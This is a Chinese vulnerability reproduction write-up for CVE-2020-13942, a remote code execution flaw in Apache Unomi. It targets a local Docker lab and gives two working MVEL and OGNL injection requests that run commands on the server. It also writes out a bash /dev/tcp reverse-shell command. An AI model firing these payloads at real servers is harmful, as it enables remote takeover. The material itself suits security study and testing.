

# Apache Unomi远程代码执行漏洞复现-CVE-2020-13942

## 简介

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

**CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，并在服务器执行任意代码**

## 影响版本

> Apache Unomi <1.5.2

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

有两种利用方式：

- 通过MVEL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 483
  
  {
      "filters": [
          {
              "id": "sample",
              "filters": [
                  {
                      "condition": {
                           "parameterValues": {
                              "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 79jk3a.dnslog.cn\");"
                          },
                          "type": "profilePropertyCondition"
                      }
                  }
              ]
          }
      ],
      "sessionId": "sample"
  }
  ```

- 通过OGNL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 1064
  
  {
    "personalizations":[
      {
        "id":"gender-test",
        "strategy":"matching-first",
        "strategyOptions":{
          "fallback":"var2"
        },
        "contents":[
          {
            "filters":[
              {
                "condition":{
                  "parameterValues":{
                    "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"ping 79jk3a.dnslog.cn\"))",
                    "comparisonOperator":"equals",
                    "propertyValue":"male"
                  },
                  "type":"profilePropertyCondition"
                }
              }
            ]
          }
        ]
      }
    ],
    "sessionId":"sample"
  }
  ```

1. 运行如下命令启动一个Apache Unomi 1.5.1的服务器：`docker-compose up -d`


2. 直接在首页抓包，把内容替换成上面任意一种POC即可

   目标出网测试


3. 进行反弹shell，将`bash -i >& /dev/tcp/192.168.1.41/7777 0>&1`进行编码，地址：http://www.jackson-t.ca/runtime-exec-payloads.html


4. 获取shell



## 修复建议

更新最新版本